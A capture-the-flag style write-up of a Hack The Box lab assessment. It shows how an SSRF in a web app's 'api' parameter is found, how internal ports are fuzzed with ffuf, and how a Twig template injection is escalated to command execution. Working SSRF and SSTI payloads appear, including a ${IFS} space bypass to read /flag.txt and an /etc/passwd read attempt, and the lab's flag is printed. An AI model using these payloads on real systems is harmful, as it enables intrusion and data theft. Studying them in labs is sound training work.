 ```yaml
---
sticker: lucide//server
---
```


# Skills Assessment

### Scenario

You are tasked to perform a security assessment of a client's web application. Apply what you have learned in this module to obtain the flag.

![](gitbook/cybersecurity/images/Pasted%20image%2020250212154851.png)

Let's begin by checking the page:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212154913.png)

We got a simple page, nothing is off at the beginning, we have three sections: `menu`, `reviews` and `contact`, let's read the main's page source code:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212155010.png)

We can see this js code at the end of the file, let's break it down:

```ad-important
### **1. Loop Through Truck IDs**

- Iterates over a list of truck IDs: `["FusionExpress01", "FusionExpress02", "FusionExpress03"]`.
    
- For each truck ID, an HTTP request is made to fetch its location.
    

---

### **2. XMLHttpRequest Setup**

- **Synchronous Request**:  
    `xhr.open('POST', '/', false)` creates a **synchronous** POST request to the server (`/`).  
    _(Synchronous requests block the UI until completion, which is generally discouraged.)_
    
- **Request Headers**:  
    Sets `Content-Type: application/x-www-form-urlencoded` to send data as form-encoded key-value pairs.
    

---

### **3. Request Handling**

- **POST Data**:  
    Sends the parameter `api=http://truckapi.htb/?id=<TRUCK_ID>` in the request body.
    
    - `encodeURIComponent("=" + truckID)` ensures the `=` and truck ID are URL-safe (e.g., `%3DFusionExpress01`).
        
    - Final URL sent to the server: `http://truckapi.htb/?id=FusionExpress01`.
        
- **Server-Side Behavior**:  
    The server likely acts as a proxy, using the `api` parameter to fetch data from the internal `truckapi.htb` endpoint.  
    _(This could introduce SSRF vulnerabilities if the server doesn’t validate the URL.)_
    

---

### **4. Response Handling**

- **Success Case (HTTP 200)**:
    
    - Parses the response as JSON.
        
    - Displays `data['location']` if available, or `data['error']` if an error is present.
        
- **Failure Case**:  
    Shows "Unable to fetch current truck location!" if the request fails (non-200 status).
    

---

### **5. UI Updates**

- Updates the HTML element with `id=truckID` (e.g., `<div id="FusionExpress01">`) to show the location/error.
    

---

### **Key Observations**

- **SSRF Risk**: The server trusts the `api` parameter to make internal requests. If unvalidated, attackers could exploit this to access internal systems.
    
- **Hardcoded Truck IDs**: Limits functionality to predefined trucks (no user input).
    
- **Synchronous Requests**: Poor practice for user experience but intentional here for sequential processing.

### **Summary**

For each Truck ID:
  1. Send POST to server with URL: `http://truckapi.htb/?id=<TRUCK_ID>`
  2. Server fetches data from `truckapi.htb`
  3. Client displays location/error in the webpage
```

Understanding the functionality of the page, we can start burp and check the request:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212160205.png)

We can begin the testing for SSRF.

### SSRF Test

***

We can begin the test by pointing `http://127.0.0.1:80` to view the response:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212160429.png)

It went through, what if we point to a closed port:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212160546.png)

An error message is shown, knowing this, we can use ffuf and fuzz for open ports:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200
```

We can see the following:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://83.136.252.66:53014/
 :: Wordlist         : FUZZ: /home/samsepiol/ports.txt
 :: Header           : Host: 83.136.252.66:53014
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : api=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Error \(7\)
________________________________________________

3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 158ms]
80                      [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 5317ms]
```

So, port 3306 is open, let's check the response:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212161958.png)

We got another error message, `Received HTTP/0.9 when not allowed`, but it doesn't matter, since we know we have SSRF, we can attempt to read local files:

```
file:///etc/passwd
```

We get the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212165927.png)

`file` has been disabled, let's test other way.

### SSTI Test

***

We can test SSTI with this simple payload:

```twig
http://truckapi.htb/?id={{7*7}}
```

We see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212170132.png)

It works, this means we are facing `twig`, let's try to use this:

```twig
{{ ['id'] | filter('system') }}
```

We need to format it:

```twig
http://truckapi.htb/?id={{['id']|filter('system')}}
```

We see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212170307.png)

We got RCE, let's proceed to read our flag, since we need to do a space in order to do `cat /flag.txt`, we can use `${IFS}` which is the `Internal Field Separator` to bypass the space restrictions in shell commands, payload would be the following:

```twig
http://truckapi.htb/?id={{['cat${IFS}/flag.txt']|filter('system')}}
```

We can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212170624.png)

We got our flag:

```
HTB{3b8e2b940775e0267ce39d7c80488fc8}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250212170814.png)
